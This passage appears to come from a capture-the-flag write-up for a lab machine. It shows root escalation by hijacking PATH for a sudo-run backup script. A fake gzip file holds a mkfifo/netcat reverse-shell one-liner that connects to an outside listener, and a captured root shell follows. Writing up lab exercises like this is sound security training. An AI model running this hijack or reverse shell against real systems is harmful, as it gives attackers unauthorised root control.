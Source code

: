 Since this file is prevented from modification (at least from `m4lwhere` account), started looking for ways to abuse this `sudo` entry.

Checked for gzip [GTFOBins](https://gtfobins.github.io/gtfobins/gzip/) but nothing interesting was found. The only possibility would be a path hijack, once gzip is called without a path in script, so we can try to abuse that :smile:

The following steps were executed, to be able to get root access to this box:

- created a temp folder and inside it, a bash file called gzip

  ```bash
  m4lwhere@previse:~$ cd $(mktmp -d)
  m4lwhere@previse:/tmp/tmp.jXV0om034O$ vi gzip
  m4lwhere@previse:/tmp/tmp.jXV0om034O$ cat gzip
  #!/bin/bash
  
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.39 4443 >/tmp/f
  ```

- modified PATH appending the temp directory used

  ```bash
  m4lwhere@previse:/tmp/tmp.jXV0om034O$ export PATH=/tmp/tmp.jXV0om034O:$PATH
  ```

- ran sudo command and obtained a reverse shell

  ```bash
  m4lwhere@previse:/tmp/tmp.jXV0om034O$ sudo /opt/scripts/access_backup.sh
  ```

```bash
$ nc -lnvp 4443                                                                                                                                              1 ⨯
listening on [any] 4443 ...
connect to [10.10.16.39] from (UNKNOWN) [10.10.11.104] 52210
# cd /root
# cat root.txt
<redacted>
```
